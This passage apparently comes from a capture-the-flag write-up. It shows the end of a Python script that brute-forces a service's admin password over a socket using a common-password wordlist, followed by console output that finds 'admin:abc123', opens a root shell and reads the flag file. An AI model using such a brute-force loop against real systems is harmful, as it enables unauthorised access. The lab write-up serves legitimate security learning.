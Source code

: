 ```py
        for line in file:
            password = line.strip()
            if send_socket(pyrat_IP, pyrat_PORT, password):
                break
            time.sleep(0.1)

if __name__ == "__main__":
    brut_pass()
```

# root.txt

─(root㉿docker-desktop)-[~]
└─# python3 login.py
[-] Failed: 123456
[-] Failed: 12345
[-] Failed: 123456789
[-] Failed: password
[-] Failed: iloveyou
[-] Failed: princess
[-] Failed: 1234567
[-] Failed: rockyou
[-] Failed: 12345678
[+] Found! admin:abc123 -> Welcome Admin!!! Type "shell" to begin
[+] Shell Response: #
$ ls
ls
$ ls
pyrat.py root.txt snap

#

$ cat root.txt
ls
pyrat.py root.txt snap

#

$ ^[[A
cat root.txt
ba5ed03e9e74bb98054438480165e221

#

$
